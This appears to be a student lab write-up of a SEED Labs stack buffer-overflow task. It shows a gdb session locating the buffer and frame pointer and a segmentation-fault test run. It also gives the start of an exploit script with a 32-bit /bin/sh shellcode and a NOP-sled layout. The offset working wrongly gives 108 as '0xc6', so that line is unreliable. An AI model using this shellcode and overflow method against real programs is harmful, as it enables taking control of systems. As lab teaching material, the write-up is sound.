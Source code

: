 ## Task 3

```sh
[11/16/21]seed@VM:~/.../code$ touch badfile
[11/16/21]seed@VM:~/.../code$ make
...
[11/16/21]seed@VM:~/.../code$ gdb stack-L1-dbg 
...
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run
Starting program: /home/seed/labs/tp5/code/stack-L1-dbg
...
Breakpoint 1, bof (str=0xffffcca3 '\220' <repeats 112 times>, "\335̻\252", '\220' <repeats 84 times>...) at stack.c:16
16      {
gdb-peda$ next
...
20          strcpy(buffer, str);       
gdb-peda$ p $ebp
$1 = (void *) 0xffffc878
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffc80c
gdb-peda$ quit
[11/16/21]seed@VM:~/.../code$ 
```


We initially ran `exploit.py` with a shellcode filled with 517 `0x90` characters, which correspond to the `NOP` instruction. In this case, a segmentation fault occurs when running the `stack-L1` program, meaning that the return address for the `bop` function was overwritten during our buffer overflow attack.

```sh
[11/16/21]seed@VM:~/.../code$ python3 exploit.py 
[11/16/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
Segmentation fault
[11/16/21]seed@VM:~/.../code$ 
```

Afterwards, we used the 32-bit shellcode provided in Task 2, which had a length of 27 bytes. The remaining 490 bytes are filled with `NOP` bytes. The position (`start`) of the shellcode must be <= 490, otherwise it will not fit in the 517 bytes that are read from `badfile`.

Subtracting the base address of the buffer (`0xffffc80c`) from the address in stored in the `epb` register (`0xffffc878`) gives us the size of the `bof` function's stack frame: 108, or `0xc6`. Since the return address comes after the frame pointer, we must add 4 more bytes to the offset. Therefore, the return address should be 112 bytes from the base address of the buffer.

```python
#!/usr/bin/python3
import sys

# Using 32bit shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Place shellcode at the very end of the payload
start = 517 - len(shellcode)
```